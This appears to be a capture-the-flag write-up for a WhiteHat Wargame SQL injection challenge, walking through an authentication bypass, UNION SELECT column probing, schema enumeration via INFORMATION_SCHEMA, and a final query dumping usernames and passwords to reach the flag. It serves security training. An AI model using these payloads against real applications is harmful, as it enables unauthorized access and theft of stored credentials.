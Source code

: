 # WEB06 WHITEHAT WARGAME 3.0
## THIS IS A BASIC SQL CHALLENGE.
### LET’S START >_<
### <+> When follow the http://103.229.41.16:8081 we will get the result:

![image](https://user-images.githubusercontent.com/71617433/137171847-8c37a7ac-9aba-41d8-bdb0-2e816e1918eb.png)

Well, there is a login form and the first thing I tried is **‘ or 1-- -** and typed a random password then entered the login. It returned the following :

![image](https://user-images.githubusercontent.com/71617433/137171978-015bfed9-294b-408a-8b06-5684e5f22129.png)

This is a table including some information of users. Then I could identify that it’s MYSQL.

### <+> The next step, is identify how many columns that the query returns. Because the table has 5 columns so I start from 5 null:
I use **'OR+1+UNION+SELECT+null,null,null,null,null#** after password.

![image](https://user-images.githubusercontent.com/71617433/137172060-1398ebb1-e718-49d7-a85c-6aab7102c609.png)

It doesn’t work, so let try 6,7,8 and more until it works. And when I use 7 null colums, it works.

![image](https://user-images.githubusercontent.com/71617433/137172111-77d7dfc7-f652-4acc-8d9d-cbf0843eb5b2.png)

The next, we’ll identify which data type for each columns.
Use number, character to replace null. If the response returns data, it’s true type of data, else, it’s wrong.

![image](https://user-images.githubusercontent.com/71617433/137172162-5169467e-4d55-4ca4-989c-a5c97e239c5d.png)

You can see that the first, fourth, sixth columns ‘s data type is number;
And other columns has string data type .

***Notice : only the first, second, fourth, fifth, seventh columns are displayed.***

### <+> Let’s find the table name and the column name in the table. 
**'OR+1+UNION+SELECT+null,null,null,null,(SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+LIMIT+1),null,null#**

![image](https://user-images.githubusercontent.com/71617433/137172713-9e8f0dc7-dace-42bc-8933-5674b9ec2e98.png)

Oh, I see a table named “hocsinh”. Let’s find its columns name.
I will find all th e columns of table ‘***hocsinh***’.
I use this SQL command:
**'OR+1+UNION+SELECT+null,null,null,null,(SELECT+COLUMN_NAME+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='hocsinh'+LIMIT+0,1),null,null#**
Then increase the number after LIMIT from 0 until the response doesn’t return any data at all.
When the number after LIMIT go to 7 , it doesn’t return any data, then we can identify that the ‘hocsinh’ table has 7 columns: id, user, password, name, age, phone, city.

![image](https://user-images.githubusercontent.com/71617433/137172769-202ace82-f2d5-4c51-9f68-ccf3c771df38.png)
 

<+> Now we have the table name and columns name, the final work is find the password of each user.
Sql command: 
**'OR+1+UNION+SELECT+null,user,null,null,password,null,null+FROM+hocsinh#**

![image](https://user-images.githubusercontent.com/71617433/137172838-c50e4529-dbde-4057-9c1b-802618aa058d.png)


 

We can see the flag at the last row :
	***WhiteHat{5hOW_15_Ch1K3n_5t@r}***

